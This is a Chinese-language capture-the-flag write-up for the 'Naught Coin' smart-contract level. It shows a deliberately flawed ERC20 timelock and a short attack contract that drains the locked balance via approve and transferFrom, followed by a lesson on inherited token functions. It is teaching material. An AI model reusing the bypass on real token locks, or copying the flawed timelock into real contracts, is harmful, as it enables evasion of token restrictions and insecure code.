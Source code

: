 # Naught Coin

NaughtCoin 是一种 ERC20 代币，而且您已经持有这些代币。问题是您只能在 10 年之后才能转移它们。您能尝试将它们转移到另一个地址，以便您可以自由使用它们吗？通过将您的代币余额变为 0 来完成此关卡。

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

## 攻击思路

先授权给合约，合约再把钱转走。

## 攻击流程

部署攻击合约

```solidity
contract Attack {
    
    NaughtCoin constant private target = NaughtCoin(0xAB4a4181894300d2A115CA734BEd562046419eD0);

    function attack() public {
        uint256 balance = target.balanceOf(msg.sender);
        target.transferFrom(msg.sender,address(this),balance);
    }
}
```

账户调用NaughtCoin合约的approve函数，函数参数：

```
// 攻击合约地址，我的余额
0xED6FbE8E0e89935998c5542078194da57367D3ff,1000000000000000000000000
```

最后调用Attack合约的attack函数，攻击成功

当您使用自己的代码以外的代码时，最好熟悉它以充分了解它们是如何编写在一起的。当有多个层级的导入时（您的导入包含其它导入）或您正在实施授权控制时，这一点尤其重要, 比如当您允许或阻止人们做某事时. 在这个案例中, 开发人员可能会查看代码并认为 transfer 函数是移动Token的唯一方法，但发现还有其他方法可以使用不同的实现来执行相同的操作。